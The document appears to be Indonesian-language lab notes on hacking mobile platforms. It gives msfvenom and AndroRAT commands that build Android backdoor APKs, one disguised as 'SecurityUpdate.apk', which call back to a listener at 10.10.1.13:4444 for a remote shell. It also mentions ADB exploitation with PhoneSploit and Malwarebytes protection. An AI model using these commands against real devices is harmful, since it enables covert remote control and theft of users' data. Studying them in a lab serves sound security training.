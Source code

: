 # Peretasan Platform Seluler
Perangkat seluler memungkinkan komunikasi antara pengguna pada frekuensi radio, baik itu GSM, LTE, 5G, atau Wi-Fi. Mereka dapat digunakan untuk mengirim konten multimedia, email, dan melakukan banyak tugas lainnya menggunakan Internet. Keamanan seluler menjadi semakin menantang dengan munculnya serangan yang kompleks yang menggunakan beberapa vektor serangan untuk mengompromikan perangkat seluler. Ancaman keamanan ini mengeksploitasi data kritis serta informasi keuangan dan detail lainnya dari pengguna seluler dan juga dapat merusak reputasi jaringan seluler dan organisasi.

<br>

- `msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 R > Desktop/Backdoor.apk`

Eksploitasi Platform Android melalui ADB menggunakan PhoneSploit:
- Android Debug Bridge (ADB) adalah alat baris perintah yang serbaguna yang memungkinkan Anda berkomunikasi dengan perangkat. ADB memfasilitasi berbagai tindakan perangkat seperti menginstal dan mendebag aplikasi, dan memberikan akses ke shell Unix yang dapat Anda gunakan untuk menjalankan beberapa perintah yang berbeda pada perangkat.
- Biasanya, pengembang terhubung ke ADB pada perangkat Android dengan menggunakan kabel USB, tetapi juga memungkinkan untuk melakukannya secara nirkabel dengan mengaktifkan server daemon di port TCP 5555 pada perangkat.

Retas Perangkat Android dengan Membuat File APK menggunakan AndroRAT:
- AndroRAT adalah alat yang dirancang untuk memberikan kontrol sistem Android kepada pengguna jarak jauh dan untuk mengambil informasi dari itu. AndroRAT adalah aplikasi klien/server yang dikembangkan dalam Java Android untuk sisi klien dan Server berada dalam Python. AndroRAT menyediakan backdoor yang sepenuhnya persisten ke perangkat target karena aplikasi tersebut secara otomatis mulai saat boot up perangkat, juga mendapatkan lokasi saat ini, detail kartu SIM, alamat IP, dan alamat MAC perangkat.
- `python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk`
  - --build: digunakan untuk membangun APK
  - -i: menentukan alamat IP lokal (di sini, 10.10.1.13)
  - -p: menentukan nomor port (di sini, 4444)
  - -o: menentukan file APK output (di sini, SecurityUpdate.apk)
- `python3 androRAT.py --shell -i 0.0.0.0 -p 4444 `

https://www.sisik.eu/apk-tool

Amankan Perangkat Android dari Aplikasi Berbahaya menggunakan Malwarebytes Security:

- Malwarebytes adalah alat keamanan seluler antimalware yang memberikan perlindungan terhadap malware, ransomware, dan ancaman lainnya yang berkembang pada perangkat Android. Ini memblokir, mendeteksi, dan menghapus adware dan malware; melakukan audit privasi untuk semua aplikasi; dan memastikan penjelajahan yang lebih aman.
